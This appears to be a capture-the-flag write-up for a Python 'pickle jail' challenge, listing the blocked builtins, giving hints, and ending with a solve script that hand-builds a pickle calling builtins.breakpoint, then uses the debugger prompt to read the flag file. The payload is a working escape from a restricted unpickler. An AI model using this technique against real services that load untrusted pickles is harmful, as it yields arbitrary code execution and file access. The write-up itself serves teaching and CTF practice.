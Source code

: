 # jail 2

## restrictions

simple blocklist for the `find_class` function

additionally, all find_class only finds functions/classes from builtins

notable blocked keywords:
- exec
- eval
- exit
- open
- os
- subprocess
- setattr
- \_\_import\_\_

## hints

<details>
    <summary>Hint 1</summary>

The blocklist isn't comprehensive, there is still a useful function in builtins that we can get to

</details>

<details>
    <summary>Hint 2</summary>

Perhaps `breakpoint`?

</details>

<details>
    <summary>Solution</summary>

tl;dr - `breakpoint()`

solve.py
```python
from pickle import *
from pickletools import dis

p = b""

p += PROTO
p += b'\x05'
p += GLOBAL
p += b'builtins\n'
p += b'breakpoint\n'
p += EMPTY_TUPLE
p += REDUCE
p += STOP

dis(p)
print("="*50)
print(p.hex())
```

output
```
    0: \x80 PROTO      5
    2: c    GLOBAL     'builtins breakpoint'
   23: )    EMPTY_TUPLE
   24: R    REDUCE
   25: .    STOP
highest protocol among opcodes = 2
==================================================
8005636275696c74696e730a627265616b706f696e740a29522e
```

Not going to go into to much depth here, but notably, the breakpoint function is not blocked

```
>> 8005636275696c74696e730a627265616b706f696e740a29522e
--Return--
> /home/quasar/wasteland/picklejails/jail2/jail.py(17)<module>()->None
-> up.load()
(Pdb) open("flag.txt").read()
'woc{well_technically_you_just_broke_in_the_jail,_as_well_as_breaking_out}\n'
```

</details>
